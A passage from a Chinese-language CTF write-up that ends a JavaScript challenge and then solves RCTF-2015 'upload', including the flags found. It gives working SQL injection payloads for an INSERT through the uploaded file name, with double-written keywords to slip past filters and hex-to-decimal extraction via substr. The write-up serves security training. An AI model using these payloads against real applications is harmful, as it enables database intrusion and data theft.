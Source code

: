 ```js
}
document.write('<input id="c"><button onclick=$()>Ok</button>');
delete _
```

获取到 `flag{it's_a_h0le_in_0ne}`。


## 0x05 upload

RCTF-2015

![](/assets/images/move/20190914164359.png)

看上去是个注入题目，其实是个注入题目。在文件名处存在`insert`注入，直接进行报错或者延时注入时回显`sqlinject find`，这里可以利用**二次注入**来获取数据。

```sql
INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,....),(值1, 值2,....)...
```

经 fuzz 发现过滤了 `select`、`from`、`and`等关键字，可以通过双写绕过。

```sql
'+concat((selselectect version()))+'.jpg -> 5.6
'+concat((selselectect database()))+'.jpg -> 0 题目限制:只能返回数字
```

这里可以考虑简单把要获取字符串转化为16进制后转为10进制数字带出，为避免数值太大溢出可配合 `substr()` 进行截取。

Payload:

```sql
# conv(substr(hex()))
0'+(seleselectct conv(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+'.jpg
```

最终获得 DB: web_upload / Table: hello_flag_is_here / C: i_am_flag / flag: `!!_@m_Th.e_F!lag`。

通过fuzz发现，在进行 `insert` 操作的时候有三个列，所以构造：

```sql
文件名','uid','uid'),((database()),'uid','uid')#.jpg
```
